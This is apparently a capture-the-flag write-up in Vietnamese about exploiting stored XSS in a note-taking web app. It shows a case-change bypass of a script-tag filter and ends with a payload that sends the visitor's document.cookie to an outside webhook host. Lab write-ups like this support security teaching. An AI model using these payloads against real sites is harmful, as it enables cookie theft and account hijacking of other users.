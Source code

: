 # Solution

Thử thách cho ta hai link url, nhìn vào link thứ hai là một link bot và có mở port có lẽ là để tương tác với user thông qua trang web. Truy cập vào url đầu tiên ta sẽ thấy có một form **login** được action trên file **login.php**

![form_login](https://live.staticflickr.com/65535/52773944476_7b2b6ca504.jpg)

Sau đó ta tạo tài khoản để đi vào website

![register](https://live.staticflickr.com/65535/52774367195_55b82cdb07_z.jpg)

Sau khi đăng kí thành công, trang web điều hướng ta ngược trở lại form **login** và tiến hành đăng nhập bằng tài khoản mà ta vừa đăng kí. Sau khi đi vào website, trang web điều hướng đi vào trang home và xuất hiện một **creat note** và một trường cho phép nhập text vào(Có lẽ là thẻ **textarea**). Mình đoán ở đây là nơi có lỗ hổng, và có thể trang web có thể đang dính lỗi **XSS**, chúng ta sẽ cùng thử kiểm chứng.

![create_note](https://live.staticflickr.com/65535/52774221769_805c0a558d_h.jpg)

Đầu tiên mình thử một payload đơn giản và đưa vào trường nhập liệu rồi nhấn submit

```
    <script>alert("hi");</script>
```

![xss](https://live.staticflickr.com/65535/52774381900_9e82c2c93d_h.jpg)

Một dòng **Your note: Script tag not allowed** được trả về, có lẽ các thẻ script đã bị lọc hoặc loại bỏ. Mình sẽ bật **burpsuite** và bắt request để thấy rõ hơn điều này.

![xss](https://live.staticflickr.com/65535/52774251154_513752024a_n.jpg)

> Dòng trạng thái đầu tiên được bắt với chuỗi truy vấn đằng sau **?content** đã bị filter

Bây giờ ta sẽ thử cố bypass nó bằng cách sửa đổi một chút và đưa lại vào trường nhập liệu

```
    <SCript>alert("hi");</SCript>
```

![xss](https://live.staticflickr.com/65535/52773995381_2393a099df.jpg)

Một popup hiện ra với dòng alert **"hi"** => bypass thành công.

![xss](https://live.staticflickr.com/65535/52773470367_b665e8cda1_h.jpg)

Tiếp theo vẫn cách làm như vậy mình sẽ tạo ra một **webhook** để lấy **cookie** và gửi cho admin. Hiểu đơn giản thì **webhook** là một cơ chế cho phép ứng dụng gửi và nhận các thông báo tự động khi có sự kiện xảy ra trên một trang web hoặc ứng dụng khác. Ở đây mình sẽ dùng nó để lấy cookie thông qua một payload xss. Mình lấy payload này ở [payload\_\_xss_Silent One-Linear](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) và thay url mặc định bằng url webhook của mình.

```
    <SCript>var i=new Image;i.src="http://p59d71b4.requestrepo.com/?"+document.cookie;</SCript>
```

Sau khi đưa payload trên vào, các reponse được trả về **webhook** của mình

![web](https://live.staticflickr.com/65535/52773482837_a74434288f_h.jpg)
